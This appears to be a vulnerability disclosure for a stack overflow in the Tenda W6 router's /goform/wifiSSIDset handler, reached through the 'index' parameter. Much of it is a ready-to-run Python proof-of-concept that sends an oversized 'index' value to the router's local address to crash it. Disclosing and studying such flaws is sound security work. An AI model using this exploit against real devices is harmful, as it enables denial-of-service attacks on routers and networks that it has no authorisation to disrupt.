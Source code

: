 # Tenda W6 Stack Overflow Vulnerability

## Device Vulnerability Introduction 
Tenda W6 is an enterprise wireless AP router from Tenda Technology (Shenzhen, China).

A stack overflow vulnerability exists in /goform/wifiSSIDset in Tenda W6 V1.0.0.9(4122) version, which can be exploited by attackers to cause a denial of service (DoS) via the index parameter.

The firmware can be downloaded at: https://www.tenda.com.cn/download/detail-2576.html

## Vulnerability Location
/goform/wifiSSIDset

formwrlSSIDset()

![image-20220708155526810](pic/image-20220708155526810.png)

![image-20220708155804797](pic/image-20220708155804797.png)

## Exp

```python
import requests
from pwn import *

burp0_url = "http://192.168.5.1/goform/wifiSSIDset"
burp0_headers = {"Host":"192.168.5.1",
"Content-Length":"295",
"Accept":"*/*",
"X-Requested-With":"XMLHttpRequest",
"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36",
"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
"Origin":"http://192.168.5.1",
"Referer":"http://192.168.5.1/main.html",
"Accept-Encoding":"gzip, deflate",
"Accept-Language":"en-US,en;q=0.9",
"Cookie":"user=",
"Connection":"close"}

data1="index="+'a'*0x200

requests.post(burp0_url,headers=burp0_headers,data=data1, verify=False,timeout=1)

```
## [Please see the video for the demonstration](./video/1.mp4)
